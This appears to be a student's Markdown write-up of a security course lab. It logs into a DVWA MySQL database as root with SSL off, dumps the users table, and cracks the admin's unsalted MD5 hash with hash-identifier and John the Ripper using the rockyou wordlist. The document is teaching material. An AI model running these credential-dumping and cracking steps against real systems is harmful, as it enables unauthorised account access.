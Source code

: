 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.

2. Do offline cracking of password hashes found in the database.

3. Learn from real-world crypto mistakes and suggest better ways.

4. Write a report in GitHub (Markdown) and show a short demo.

## LAB TASK
### 1. Service enumeration and initial access
I try to connect to the database using:

 ```
 my sql -h 192.168.100.131
 ```
but it shows error ><

![alt text](Screenshot/mysql_error.png)

**WHY DOES THIS HAPPEN?**

This is because  MySQL Server  enforcing SSL/TLS, but the client and server disagree on the encryption protocol version.

**HOW TO FIX IT?**

we need to disabled SSL so we can make a connection. Use:

```
mysql -h 192.168.100.131 -u root --ssl=off
```
*by doing this we have disable SSL and bypasses the error but our credentials are not secured as it is not encrypted*


![alt text](Screenshot/mysql-success.png)


### 2. USER ENUMERATION AND WEAK AUTHENTICATION

next step is to gte the information about the database using:

```bash
show databases;
```


![alt text](Screenshot/show-databases.png)



*here we can see the dvwa which are vulnerable*

so we will be needing to look trough dvwa table using:


```bash 
use dvwa;
```


![alt text](Screenshot/use-dvwa.png)


we will need to list the table so use:


```bash
show tables;
```


![alt text](Screenshot/show-tables.png)



*as we found user's database now we can use it*


try too look for passwords in users database using:


```bash
select * from users;
```


![alt text](Screenshot/users-database.png)



*From this output we can crack the password that we choose.In this case i choose admin's passwords which is:*


```bash
5f4dcc3b5aa765d61d8327deb882cf99
```

Now lets try to figure out what kind of hash is that.


### 3. PASSWORD HASH DISCOVERY AND HASH IDENTIFICATION


we will be using hash-identifier tool. To open it using kali type :


```bash 
hash-identifier
```


![alt text](Screenshot/hash-id.png)



enter the hash and we will get the result !!



![alt text](Screenshot/identifier-result.png)



4. CRACK THE PASSWORD



create file hash.txt and paste the hash in it. Use :


```
echo "5f4dcc3b5aa765d61d8327deb882cf99">hash.txt  
```


![alt text](Screenshot/hash-txt.png)



Then we will need to crack it using john the reaper. Use:


```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```


![alt text](Screenshot/pass-crack.png)


fnally now we can show the password using:


```
john --show --format=raw-md5 hash.txt 
```


![alt text](Screenshot/crack-result.png)



